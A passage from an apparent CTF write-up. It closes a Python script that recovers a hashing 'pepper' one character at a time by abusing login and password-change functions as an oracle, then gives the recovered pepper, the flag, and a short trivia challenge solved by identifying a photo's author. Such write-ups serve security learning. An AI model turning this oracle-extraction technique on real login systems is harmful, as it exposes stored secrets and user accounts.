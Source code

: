 ```python

            if login(test_password):
                # Ok we have found the next valid char for Pepper
                print(f"[✓] Char found: '{c}'")
                found_char = c
                break

        if found_char:
            pepper += found_char

            # We decrement the prefix to find the new Pepper's char
            new_pw = "B" * (num_b_prefix - 1)

            if change_password(current_server_password, new_pw):
                print(f"[+] Password changed to: {new_pw}")
                current_server_password = new_pw
                num_b_prefix -= 1
            else:
                print("[-] Error while changing password")
                return pepper
        else:
            print("[!] No char was found")
            break
    return pepper

if __name__ == "__main__":
    recovered_pepper = recover_pepper()
    print(f"Pepper: {recovered_pepper}")
```

I then executed the script and found the `PEPPER` to be `e8isahBivzaZ39zOTG0`

{{< figure src="/oposec_2025/spicy12.png" class="post-image" >}}

With this `PEPPER` I was able to provide the "Magic Key" and get the flag.

{{< figure src="/oposec_2025/spicy13.png" class="post-image" >}}

```bash
flag{D0nt_CrY_0v3R_S9ill3d_P3pper}
```

## Trivia

### Default

{{< figure src="/oposec_2025/default.png" class="post-image" >}}

I spent a lot of time Googling different things to solve this challenge ... eventually, I decided to check who actually took the picture.

{{< figure src="/oposec_2025/default2.png" class="post-image" >}}

I used "Bliss" as the flag, and it worked.
